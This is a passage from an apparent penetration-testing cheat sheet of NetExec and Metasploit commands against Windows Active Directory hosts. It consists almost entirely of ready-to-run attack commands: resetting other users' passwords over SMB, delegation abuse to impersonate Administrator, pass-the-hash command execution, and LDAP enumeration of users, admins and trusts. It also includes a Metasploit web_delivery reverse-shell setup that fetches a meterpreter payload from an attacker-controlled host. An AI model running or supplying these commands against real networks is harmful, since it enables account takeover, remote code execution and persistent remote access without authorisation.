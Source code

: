 ```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M change-password -o NEWPASS=<PASSWORD>
```

##### Change Password of a different User

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M change-password -o USER=<USERNAME> NEWPASS=<PASSWORD>
```

#### Delegation

##### Resource-Based Constrained Delegation (RBCD)

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --delegate Administrator
```

##### S4U2Self

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -H <HASH> --delegate Administrator --self
```

#### Command Execution

```console
$ netexec smb <RHOST> -u '<USERNAME>' -H '<HASH>' -x <COMMAND>
$ netexec smb <RHOST> -u '<USERNAME>' -M pi -o PID=<PID> EXEC=<COMMAND>
```

#### Reverse Shells

##### Metasploit

```console
msf6 > use exploit/multi/script/web_delivery
msf6 exploit(multi/script/web_delivery) > set LHOST <LHOST>
msf6 exploit(multi/script/web_delivery) > set LPORT <LPORT>
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_https
msf6 exploit(multi/script/web_delivery) > set SRVHOST <LHOST>
msf6 exploit(multi/script/web_delivery) > set SRVPORT <LPORT>
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > run -j
```

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M web_delivery -o URL=http://<LHOST>/<FILE>
```

### LDAP

#### Domain Enumeration

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --users
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --users-export <FILE>
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --active-users
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --groups
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --groups "<GROUP>"
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --admin-count
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --query "(adminCount=1)" "sAMAccountName"
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --dc-list
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M get-desc-users
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M adcs
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M maq
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M enum_trusts
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M ldap-checker
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M whoami
```